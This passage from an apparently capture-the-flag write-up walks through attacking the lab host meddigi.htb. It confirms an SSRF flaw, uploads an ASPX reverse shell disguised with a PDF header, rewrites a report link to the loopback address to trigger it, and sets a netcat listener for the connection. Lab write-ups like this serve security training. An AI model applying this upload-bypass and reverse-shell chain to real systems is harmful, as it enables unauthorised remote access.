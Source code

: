 ![img_7.png](img/img_7.png)

- We get a link: https://portal.meddigi.htb/ViewReport.aspx?file=eefeccb8-4c86-45b4-a38d-81754324a11b_Cardiology_Report_1.pdf. Upon clicking that, we are automatically 
redirected to the Profile page. This redirection suggests that the injected payload has been triggered, confirming the presence of a SSRF vulnerability on the website.

- It's also worth noting that the menu `Upload Report` allows you to upload PDF files. And with the SSRF we found earlier, we can craft an attack using this sequence:
  - Upload a reverse shell in the `Upload Report` page
  - Get the preview link in the `Issue Prescription` page
  - Change the host in that link to 127.0.0.1 (loop back address)
  - Enter that link in the `Prescription Link` field to trigger the payload
  - Set up a `nc` listener to receive the connection

- First, let's upload a valid PDF file to pull out its initial signature, it somewhat look like `%PDF-1.7`.

- We take the reverse shell at https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspxand and change the IP & port to our own.

- At the beginning of the shell we write the metadata from a valid PDF, which we defined above, after which we simply upload the resulting file to the `Upload Report` page.

- Back to `Issue Prescriptions`, we look at the list of files and see our shell:

```
https://portal.meddigi.htb/ViewReport.aspx?file=b8cf46f5-bb42-4ba3-ba5f-af15d07e5a12_r.aspx
```

- We change the domain in the link to http://127.0.0.1:8080:

```
http://127.0.0.1:8080/ViewReport.aspx?file=b8cf46f5-bb42-4ba3-ba5f-af15d07e5a12_r.aspx
```

- Finally, launch netcat and send the link, after which we will receive the connection:
